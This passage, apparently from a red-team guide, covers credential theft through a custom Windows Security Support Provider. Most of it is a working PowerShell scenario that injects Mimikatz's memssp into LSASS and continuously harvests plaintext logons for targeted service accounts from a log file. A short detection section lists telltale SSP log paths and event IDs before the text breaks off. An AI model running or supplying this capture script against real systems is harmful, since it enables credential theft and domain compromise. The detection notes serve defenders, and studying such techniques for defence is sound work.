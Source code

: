 #### **Scenario 2: Targeted Service Account Capture**
```powershell
# Objective: Capture specific service account credentials
# Impact: Access to high-value service accounts

Write-Host "=== TARGETED SERVICE ACCOUNT CAPTURE SCENARIO ===" -ForegroundColor Red

# Step 1: Identify target service accounts
$targetServices = @("SQLService", "WebService", "DomainService")
Write-Host "Targeting service accounts: $($targetServices -join ', ')" -ForegroundColor Yellow

# Step 2: Deploy Custom SSP for service account capture
try {
    # Use memssp for real-time capture
    Invoke-Mimikatz -Command '"misc::memssp"'
    
    Write-Host "Custom SSP deployed for service account capture" -ForegroundColor Green
    Write-Host "Monitoring for service account logons..." -ForegroundColor Yellow
    
    # Step 3: Monitor for target service account activity
    $logPath = "C:\Windows\System32\kiwissp.log"
    $lastCheck = Get-Date
    
    Write-Host "Starting service account monitoring..." -ForegroundColor Cyan
    Write-Host "Press Ctrl+C to stop monitoring" -ForegroundColor Yellow
    
    do {
        if(Test-Path $logPath) {
            $newEntries = Get-Content -Path $logPath | Where-Object { $_ -match ($targetServices -join '|') }
            if($newEntries) {
                Write-Host "New service account activity detected:" -ForegroundColor Red
                $newEntries | ForEach-Object { Write-Host "  $_" -ForegroundColor White }
            }
        }
        Start-Sleep -Seconds 30
    } while($true)
    
} catch {
    Write-Host "Failed to deploy targeted Custom SSP: $($_.Exception.Message)" -ForegroundColor Red
}
```

### **Custom SSP Detection and OPSEC**

#### **Custom SSP Detection**
```powershell
# Monitor for Custom SSP activity
# Event IDs: 4624 (Logon), 4625 (Logon Failure), 4688 (Process Creation)

Write-Host "=== CUSTOM SSP DETECTION ===" -ForegroundColor Yellow

# Check for suspicious SSP registration
Write-Host "Monitoring for suspicious SSP registration..." -ForegroundColor Cyan
Write-Host "Look for Event ID 5136 with SSP modifications" -ForegroundColor Yellow
Write-Host "Monitor for unusual LSASS process behavior" -ForegroundColor Yellow

# Check for suspicious log files
$suspiciousLogs = @(
    "C:\Windows\System32\mimilsa.log",
    "C:\Windows\System32\kiwissp.log",
    "C:\Windows\System32\customssp.log"
)

```
